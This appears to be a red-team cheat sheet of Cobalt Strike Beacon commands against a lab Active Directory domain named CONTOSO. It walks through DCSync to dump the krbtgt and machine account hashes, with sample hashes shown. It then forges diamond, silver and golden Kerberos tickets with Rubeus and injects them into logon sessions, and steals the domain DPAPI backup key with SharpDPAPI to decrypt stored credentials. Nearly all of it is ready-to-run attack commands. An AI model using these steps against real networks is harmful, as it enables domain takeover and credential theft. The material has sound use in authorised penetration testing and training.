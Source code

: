 
##### DCSync

Obtain krbtgt hash and machine account hash
```powershell
dcsync contoso.com CONTOSO\krbtgt

dcsync contoso.com CONTOSO\lon-db-1$

512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c
bc6fd6e8519b52e09f60961beeee083a441c25908e30a6c29b124b516e06945f
cce3f72b3b4bcffe0af7979588b885b6
```

---
##### Diamond Ticket

> **From the medium-integrity Beacon**:

Use AES256 hash of the `krbtgt` account to create a diamond ticket
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /krbkey:512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c /ticketuser:Administrator /ticketuserid:500 /domain:CONTOSO.COM /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject Diamond Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```

---

##### DPAPI Backup Key Abuse

> From the medium-integrity Beacon

Within a Domain Admin session Recover the domain's backup DPAPI key.
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe backupkey

```

Drop the impersonation and use the key to decrypt credentials stored in the Credential Manager
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /pvk:
```

---
##### Silver Ticket

> This can be done locally offline on your machine

Use AES256 machine hash to forge silver ticket (any service can be used)
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/lon-db-1 /aes256:[HASH] /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject Silver Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```

---
##### Golden Ticket

> This can be done locally offline on your machine

Use AES256 hash of the `krbtgt` account to forge a golden ticket as the default DA
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject GOlden Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```